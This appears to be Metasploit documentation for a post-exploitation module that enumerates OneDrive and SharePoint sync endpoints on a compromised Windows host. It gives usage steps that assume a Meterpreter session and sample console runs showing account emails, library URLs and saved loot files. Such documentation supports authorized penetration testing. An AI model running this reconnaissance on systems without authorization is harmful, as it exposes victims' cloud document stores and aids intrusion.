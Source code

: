 ## Vulnerable Application

  This module lists the Microsoft 365 Sharepoint/Onedrive endpoints that are being synchronised
  by the OneDrive application on a target Windows system. It will attempt to do this for every
  local user on the system (subject to permissions) and will also create a CSV with the
  results in loot.

  A user can only have one OneDrive personal account synchronised, but can have many business
  accounts synchronised. In addition, within the business accounts, there can be several 'teamsites'
  (for example, MS Teams document libraries).

  These listings can highlight document libraries or repositories that contain sensitive information,
  or simply provide an additional source of information during an engagement.

## Verification Steps

  1. Start `msfconsole`
  2. Gain a Meterpreter session on a Windows system running OneDrive.
  3. Type: `use post/windows/gather/enum_onedrive`
  4. Type: `set SESSION <session id>`
  5. Type: `run`

## Options

### SESSION

The session to run the module on.

## Scenarios

### Windows 10 x64 v2004 With OneDrive Installed But No Accounts
```
msf6 exploit(multi/handler) > use post/windows/gather/enum_onedrive 
msf6 post(windows/gather/enum_onedrive) > show options

Module options (post/windows/gather/enum_onedrive):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

msf6 post(windows/gather/enum_onedrive) > set SESSION 2 
SESSION => 2
msf6 post(windows/gather/enum_onedrive) > run

[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1000: Profile doesn't exist or cannot be accessed
[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1001: Profile doesn't exist or cannot be accessed
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1000
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1000) OneDrive not installed.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1001
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1001) OneDrive not installed.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1002) OneDrive not installed.

[*] Post module execution completed
msf6 post(windows/gather/enum_onedrive) >
```

### Windows 10 x64 v2004 With OneDrive Installed and One Business and One Personal Account

```
msf6 exploit(multi/handler) > use post/windows/gather/enum_onedrive 
msf6 post(windows/gather/enum_onedrive) > set SESSION 3 
SESSION => 3
msf6 post(windows/gather/enum_onedrive) > run

[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1000: Profile doesn't exist or cannot be accessed
[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1001: Profile doesn't exist or cannot be accessed
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1000
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1000) No OneDrive accounts found.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1001
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1001) No OneDrive accounts found.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002
[+] OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002

  Business1
  =========

    Business: 1
    ServiceEndpointUri: https://testing33sdf-my.sharepoint.com/personal/test_testing33sdf_onmicrosoft_com/_api
    SPOResourceId: https://testing33sdf-my.sharepoint.com/
    UserEmail: test@testing33sdf.onmicrosoft.com
    UserFolder: C:\Users\normal\OneDrive - Foobar Notes
    UserName: test test

    | LibraryType: mysite
    | LastModifiedTime: 2021-01-27T22:11:09
    | MountPoint: C:\Users\normal\OneDrive - Foobar Notes
    | UrlNamespace: https://testing33sdf-my.sharepoint.com/personal/test_testing33sdf_onmicrosoft_com/Documents/

  Personal
  ========

    UserEmail: giziw21000@jentrix.com
    UserFolder: C:\Users\normal\OneDrive

    | LibraryType: personal
    | LastModifiedTime: 2021-01-27T21:16:04
    | MountPoint: C:\Users\normal\OneDrive
    | UrlNamespace: https://d.docs.live.net

[+] OneDrive sync information saved to /home/gwillcox/.msf4/loot/20210129095922_default_172.18.30.231_onedrive.syncinf_606475.txt in CSV format.
[*] Post module execution completed
msf6 post(windows/gather/enum_onedrive) > 
```

### Windows 10 x64 v2004 With OneDrive Installed and One Business and One Personal Account, But One Account Is Orphaned
```
msf6 exploit(multi/handler) > use post/windows/gather/enum_onedrive 
msf6 post(windows/gather/enum_onedrive) > set SESSION 3 
SESSION => 3
msf6 post(windows/gather/enum_onedrive) > run

[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1000: Profile doesn't exist or cannot be accessed
[-] Error loading USER S-1-5-21-3917347361-1576396349-327053466-1001: Profile doesn't exist or cannot be accessed
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1000
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1000) No OneDrive accounts found.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1001
[-] (HKU\S-1-5-21-3917347361-1576396349-327053466-1001) No OneDrive accounts found.
[*] Looking for OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002
[+] OneDrive sync information for S-1-5-21-3917347361-1576396349-327053466-1002

  Personal
  ========

    UserEmail: giziw21000@jentrix.com
    UserFolder: C:\Users\normal\OneDrive

    | LibraryType: personal
    | LastModifiedTime: 2021-01-27T21:16:04
    | MountPoint: C:\Users\normal\OneDrive
    | UrlNamespace: https://d.docs.live.net

  ORPHANED
  ========

  LibraryType: mysite
  LastModifiedTime: 2021-01-27T22:11:09
  MountPoint: C:\Users\normal\OneDrive - Foobar Notes
  UrlNamespace: https://testing33sdf-my.sharepoint.com/personal/test_testing33sdf_onmicrosoft_com/Documents/

[+] OneDrive sync information saved to /home/gwillcox/.msf4/loot/20210129101238_default_172.18.30.231_onedrive.syncinf_127262.txt in CSV format.
[*] Post module execution completed
msf6 post(windows/gather/enum_onedrive) > 
```
